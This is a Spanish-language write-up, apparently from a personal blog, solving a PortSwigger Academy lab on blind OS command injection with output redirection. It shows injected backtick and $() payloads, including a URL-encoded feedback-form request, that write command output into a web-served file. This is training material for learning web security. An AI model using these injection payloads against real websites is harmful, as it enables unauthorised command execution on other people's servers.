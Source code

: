 +++
author = "Alux"
title = "Portswigger Academy Learning Path: OS Command Injection Lab 3"
date = "2021-12-02"
description = "Lab: Blind OS command injection with output redirection"
tags = [
    "command injection",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind OS command injection with output redirection

En este <cite>laboratorio[^1]</cite>la finalidad es obtener ejecucion de comandos en el sitio web, pero ya que no se recibe respuesta hay que escribir un archivo dentro de la web para poder mostrar la salida del comando en un archivo y posteriormente recuperarlo.


## Reconocimiento

La web cuenta con un formulario para el envio de feedback hacia el correo del servidor.

![Web](web.png)

Hasta ahi todo bien pero hace una peticion que lo que hace es enviar el correo por medio de una consulta por terminal de `mail` que es para el envio de correo por terminal linux.

![Solicitud de imagen](request.png)

El tipo de ejecucion que se hace al backend es:

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

## Explotacion

Lo que haremos es inyectar otros parametros para poder ejecutar otros comandos, y queremos ejecutar la siguiente consulta para que nos devuelva el nombre del usuario que esta ejecutando el script

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com `whoami > /var/www/images/whoami.txt`
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com $(whoami > /var/www/images/whoami.txt)
```

Por lo que la peticion quedaria asi (codificada en formato URL)

```
csrf=19jGeYaNMECUmKvnBJNL0vXbIEuE06Cj&name=name&email=email%40mail.com&subject=subject&message=message+`whoami+>+/var/www/images/whoami.txt`%0D%0A
```

Y obtenemos una ejecucion de comandos dentro del servidor

![Solicitud de archivo passwd](request2.png)

Ahora solo queda recuperar el contenido del archivo:

![Solicitud del archivo creado con el output del comando](request3.png)

Y con esto hemos resuelto el lab

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)